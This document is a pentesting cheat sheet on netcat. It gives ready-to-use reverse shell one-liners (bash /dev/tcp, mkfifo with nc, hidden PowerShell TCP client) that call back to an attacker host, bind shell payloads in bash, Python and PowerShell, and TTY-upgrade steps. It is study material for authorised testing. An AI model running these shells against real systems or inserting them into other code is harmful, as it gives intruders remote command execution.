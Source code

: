 # Netcat and alternatives

## What is it

Netcat, ncat, or nc, is an excellent network utility for interacting with TCP/UDP ports. It can be used for many things during a pentest. Its primary usage is for connecting to shells.  
In addition to that, netcat can be used to connect to any listening port and interact with the service running on that port.  
For example, SSH is programmed to handle connections over port 22 to send all data and keys.  
We can connect to TCP port 22 with netcat `netcat 10.10.10.10 22`

> *Source HTB Academy*

## Reverse shell

- `nc -lvnp 1234` set a listener
  - `-l` Listen mode, to wait for a connection to connect to us.
  - `-v` Verbose mode, so that we know when we receive a connection.
  - `-n` Disable DNS resolution and only connect from/to IPs, to speed up the connection.
  - `-p 1234` Port number netcat is listening on, and the reverse connection should be sent to.

> Note we can use rlwrap in front of it this will allow us to use the arrows like in an usual shell

- From our target
  - `bash -c 'bash -i >& /dev/tcp/attack-machine-ip/1234 0>&1'`
  - or `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attack-machine-ip 1234 >/tmp/f`
  - in powershell `powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("attacking-machine-ip",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`

## Bind shell

- Start a bind shell
  - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f`
  - or `python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'`
  - in powershell `powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();`

- Connect to your bind shell with netcat
  - `nc target-ip 1234`

## Upgrade TTY

- `python -c 'import pty; pty.spawn("/bin/bash")'`
- `ctrl+z` background shell and get back on local terminal
- `stty raw -echo`
- `fg`
- `Enter` 2 times to get back shell or `reset` and enter.
- In another tab `echo $TERM` and `stty size`
- Back to netcat shell
  - `export TERM=xterm-256color` or the value of the $term we got previously
  - `stty rows 67 columns 318` put the values you had from ssty size

## Transfert files with netcat

- See here my documentation on [how to transfert files with netcat](https://csbygb.gitbook.io/pentips/post-exploitation/files-transfert#netcat)

## Netcat alternatives

### For Windows

- [Powercat](https://github.com/besimorhino/powercat)

### Socat

- [Socat](https://linux.die.net/man/1/socat)
- Can be used to upgrade shell to [fully interactive TTY shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-2-using-socat)
- [Stand alone binary](https://github.com/andrew-d/static-binaries)